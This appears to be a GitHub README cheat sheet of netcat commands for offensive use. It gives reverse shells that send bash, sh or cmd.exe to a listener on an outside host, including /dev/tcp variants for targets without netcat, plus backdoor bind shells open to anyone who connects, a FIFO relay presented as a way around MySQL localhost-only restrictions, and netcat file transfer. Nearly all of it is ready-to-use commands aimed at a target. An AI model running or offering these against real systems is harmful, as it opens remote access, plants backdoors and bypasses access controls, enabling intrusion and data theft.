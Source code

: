# netcat-utils
Useful netcat commands such as Reverse Shells, Port Relays via FIFO, and others stuff.



### Listener ###
Listen for inbound connection over TCP. This can be used to receive reverse shell sessions.
```
nc -lv -p [port]
```




### Connections ###
Initiate an outbound connection over TCP to a `[host]` which is listening on that `[port]`.
```
nc [host] [port]
```




### Reverse Shells ###
Run the following commands on a target which attempt to connect over TCP to the `[host]`. Host must be listening on `[port]`, _see above_.
```
nc [host] [port] -e /bin/bash
nc [host] [port] -e /bin/sh
nc [host] [port] -e cmd.exe
```




### Backdoor Shells ###
Same commands as before but in this case the target creates a listener which serves up a shell to anyone connecting on that `[port]`.
```
nc -l -p [port] -e /bin/bash
nc -l -p [port] -e /bin/sh
nc -l -p [port] -e cmd.exe
```




### Reverse Shell without Netcat on Target ###
As with the previous reverse shells, the `host` should be listening on the `port` sepecified for the callback to be successful.
```
bash -i >& /dev/tcp/[host]/[port] 0>&1
sh -i >& /dev/tcp/[host]/[port] 0>&1
python -i >& /dev/tcp/[host]/[port] 0>&1
```




### Relay / Port Redirection ###

**Create FIFO**

First in First Out, also known as named pipes, created by using `mknod p`. The `p` flag == type FIFO.
```
mknod [pipe-name] p
```

**Relay**

Create a loopback which will relay traffic between `localhost:[Port-A]` and `localhost:[Port-B]` on the target, allowing inbound connections to `localhost:[Port-B]` to be directed at `[Port-A]`.
```
nc -l -p [Port-B] 0< [pipe-name] | nc localhost [Port-A] 1> [pipe-name]
```
First netcat is used to create a listener on `[Port-B]` which we will direct Stdin `0<` to the named-pipe. Then forward the output of this listener via the tranditional pipe to the netcat connection to `[Port-A]`. Direct whatever service is listening on `[Port-A]` Stdout `1>` to the named-pipe, which will send the response back through the listener.

**Examples:**

MySQL by default listens on Port 3306, this will fool mysqld into thinking the connecting user is `user@localhost`! Many web apps only permit users from localhost and communicate via loopback connections to backend databases while not exposing the port to the outside; this would bypass that allowing external mysql client sessions that appear to originate from localhost.
Target: `nc -l -p [Port-B] 0< [pipe-name] | nc 127.0.0.1 3306 1> [pipe-name]`
Connection: `mysql --port [Port-B] --username=[user] --password=[passwd]`
Unfortunately the default `secure_mysql_installation` option "Prevent root from outside" will still disable `root`@`localhost` to connect in this manor.

FIFO's can also be used to connect to shells.
```
nc -l -p [port] 0< [pipe-name] | bash -i 1> [pipe-name]
nc -l -p [port] 0< [pipe-name] | sh -i 1> [pipe-name]
nc -l -p [port] 0< [pipe-name] | python -i 1> [pipe-name]
```




### File Transfer ###
Files can be transmitted across a netcat session using Stdin/Stdout.

Destination: `nc -l -p [port] > /path/to/file`

Source: `nc [host] [port] < path/to/file`

